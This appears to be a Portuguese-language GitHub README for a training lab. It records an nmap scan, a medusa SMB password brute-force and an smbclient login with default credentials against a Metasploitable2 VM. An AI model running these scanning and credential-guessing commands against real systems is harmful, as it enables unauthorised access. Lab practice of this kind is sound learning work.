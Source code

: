 # Santander-Challenge
Desafio invasão ao metasploitable2 com o kali linux utilizando o medusa


## Reconhecimento 

Utilizei o nmap para escanear a rede, buscar serviços ativos e verificar portas abertas.


```bash
nmap -sV -T4 172.16.0.0/24
```


Decidi tentar ganhar acesso por SMB


```bash
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```


## Scan 


172.16.0.128
Para fazer o scan de contas e senhas vou utilizar uma já existente no kali linux


```bash
echo -e "user\nmsfadmin\nservice" > users.txt
echo -e "passwoerd\m123456\nWelcome123\nmsfadmin" > password.txt
```


Com essas wordlists em mãos, utililzarei o medusa para tentar achar um usuário com a senha comprometida 


```bash
medusa -h 172.16.0.128 -U users.txt -P password.txt -M smbnt -t 2 -T 50
```


## Acesso 


Com as credenciais tento o acesso ao servidor SMB


```bash
smbclient -L //172.16.0.128 -U msfadmin
```

_Password : msfadmin_


Com isso finalizo o teste sem prejudicar a máquina para continuar mais testes.